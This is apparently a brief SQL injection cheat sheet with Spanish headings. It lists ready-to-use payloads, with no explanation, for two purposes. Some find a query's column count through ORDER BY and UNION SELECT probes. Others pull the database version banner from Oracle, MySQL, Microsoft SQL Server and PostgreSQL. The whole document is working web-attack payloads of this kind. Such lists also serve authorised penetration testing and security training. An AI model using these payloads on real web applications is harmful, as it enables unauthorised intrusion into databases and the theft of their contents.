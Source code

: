 ## Número Columnas
```sql
' ORDER BY 1-- -
' ORDER BY 100-- -
' ORDER BY 1,2,3,4,5-- -
' ORDER BY 1,2,3,4,5#

' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT "Test",2,NULL#
' UNION SELECT @@version,NULL,NULL#
```
### ORACLE
```sql
' UNION SELECT 'NULL','NULL' FROM+dual-- -
```
## Versiones
### ORACLE
```sql
' UNION SELECT BANNER, NULL FROM v$version--
' SELECT version FROM v$instance--
```
### MySQL and Microsoft
```sql
' UNION SELECT @@version, NULL-- -
```
### PostgreSQL
```sql
' UNION SELECT version(), NULL-- -
```

